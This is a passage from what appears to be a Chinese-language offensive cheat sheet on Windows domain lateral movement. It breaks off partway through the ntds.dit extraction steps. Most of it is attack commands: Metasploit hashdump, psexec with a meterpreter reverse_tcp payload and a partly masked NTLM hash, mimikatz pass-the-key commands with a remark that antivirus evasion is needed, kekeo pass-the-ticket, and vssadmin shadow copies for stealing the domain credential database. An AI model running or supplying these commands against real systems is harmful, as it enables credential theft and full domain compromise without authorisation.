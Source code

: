 >
> > meterpreter > run post/windows/gather/hashdump
> >
> > meterpreter > background
>
> > msf > use exploit/windows/smb/psexec
> >
> > msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
> >
> > msf exploit(psexec) > set SMBuser Administrator
> >
> > msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
> >
> > msf exploit(psexec) > exploit
> >
> > meterpreter > shell
>
> 安装了 KB2871997 补丁或者系统版本大于等于 windows server 2012 时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以使用，schtasks 等执行命令无法用管理员权限。2.用 ptk，ptt。例外，打补丁后 administrato（SID-500） 依旧可以pth
>
> > https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/
>
> ### pass the key
>
> 需要免杀：
>
> > mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
> >
> > mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
> >
> > dir \\\计算机名
>
> ### pass the ticket
>
> 不需要管理员权限
>
> > kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"
>
> 导入ticket：
>
> > kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
>
> 程序地址：
>
> > https://github.com/gentilkiwi/kekeo
>
> ### ntds.dit
>
> vssadmin 方法 >= win 2008
>
> 查询当前系统的快照
>
> > vssadmin list shadows
>
> 创建快照
>
> > vssadmin create shadow /for=c:
> >
> > 获得 Shadow Copy Volume Name 为 ``\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47``
>
> 复制 ntds.dit, copy 第一个参数为创建快照时位置: